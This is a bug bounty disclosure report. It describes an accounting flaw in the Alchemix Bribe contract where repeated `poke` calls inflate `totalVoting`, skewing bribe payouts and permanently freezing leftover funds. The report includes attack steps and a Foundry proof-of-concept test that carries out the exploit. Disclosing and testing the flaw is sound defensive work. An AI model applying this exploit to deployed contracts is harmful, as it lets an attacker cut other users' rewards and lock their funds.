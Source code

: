 
# Incorrect accounting of `totalVoting` leads to permanent freeze of funds in Bribe contract and incorrect bribe distribution.

Submitted on May 21st 2024 at 00:33:37 UTC by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31520

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Permanent freezing of funds

## Description
## Brief/Intro
Incorrect accounting of `totalVoting` leads to permanent freeze of funds in Bribe contract and incorrect bribe distribution.

## Vulnerability Details

In `Voter.sol` In an epoch user can vote by calling `vote` function or poke by calling `poke` function if user has already voted in that epoch or previous epoch. 
User is also allowed to call `poke` function multiple times in an epoch, calling `poke` function multiple times does not changes the vote and does not inflate voting power. 
When vote or poke is called in an epoch, user becomes eligible for claiming bribes in next epoch. When user calls `vote` or `poke` function two external calls are made to bribe contract `withdraw` and `deposit` functions respectively . when voting power is zero call to `withdraw` function is skipped.

In `Bribe.sol`
```solidity
function deposit(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply += amount;
        balanceOf[tokenId] += amount;

        totalVoting += amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();
        _writeVotingCheckpoint();

        emit Deposit(msg.sender, tokenId, amount);
    }
```
When `deposit` is called these state variables `totalSupply`,`balanceOf[tokenId]` and `totalVoting` are updated with voting power of user.

In `Bribe.sol`
```
function withdraw(uint256 amount, uint256 tokenId) external {
        require(msg.sender == voter);

        totalSupply -= amount;
        balanceOf[tokenId] -= amount;

        _writeCheckpoint(tokenId, balanceOf[tokenId]);
        _writeSupplyCheckpoint();

        emit Withdraw(msg.sender, tokenId, amount);
    }
```
But when `withdraw` is called only `totalSupply` and `balanceOf[tokenId]` state variables are updated.

```
function earned(address token, uint256 tokenId) public view returns (uint256) {
       //...//
                _prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes; // getting inflated totalVotes

               //...//
                prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
            }
       //...//
       uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes; // getting inflated totalVotes 
        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```

The issue is when poke is called by a user multiple times `totalVoting` is inflated which causes incorrect calculation of bribe reward for all the participating users.

  > The POC steps are as follows
* User A and User B(BlackHat) create two token with same amount and maxLock enabled.
* In Epoch 1 user A votes in `Voter.sol` contract by calling `vote` function .
* User B (BlackHat) votes  in `Voter.sol` contract by calling `vote` function
* User B calls `poke` function multiple times from `Voter.sol` contract and inflating `totalVoting` variable of Bribe contract.
* Epoch 2 starts and now both user claims their bribes but because of BlackHat   both user gets incorrect bribes less than what they should have gotten , they should have received  half of total token balance of Bribe contract each.
* The bribe contract is left with remaining token balance which cannot be claimed later.


## Impact Details
* The vulnerability leads to incorrect bribe distribution , all voter receives less bribe reward than they should have received.
* The remaining bribe reward is forever locked in the bribe contract.
* Funds are lost for protocol and participating users.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L303-329
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L221-280



## Proof of Concept
* Add this test to `src/test/Voting.t.sol` and run with
`forge test --mt testPocBribeAccountingErrorwithPoke  --rpc-url $RPC_URL -vvvv`
```solidity
    function testPocBribeAccountingErrorwithPoke() public {

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true); 
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, true); 

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //beef votes
        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);
    
        //admin(BLACKHAT) votes
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        //Attack happening here
        for(uint256 i = 0;i<10;i++){
            vm.prank(admin);
            voter.poke(tokenId1);
        }
        

        //start 2nd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        //user B
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        assertEq(IERC20(bal).balanceOf(admin), IERC20(bal).balanceOf(beef), "earned bribes are not equal");

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        uint256 balanceEnd = IERC20(bal).balanceOf(bribeAddress);
        assertGt(balanceEnd,0,"balance should have been zero but it is greater than 0");
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        // start 3rd epoch
        hevm.warp(newEpoch());
        voter.distribute();

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        //user B
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        assertEq(IERC20(bal).balanceOf(admin), IERC20(bal).balanceOf(beef), "earned bribes are not equal");

        uint256 balanceEnd1 = IERC20(bal).balanceOf(bribeAddress);

        //remaining balance is locked in the contract and can no longer be claimed
        assertEq(balanceEnd1,balanceEnd);

    }
```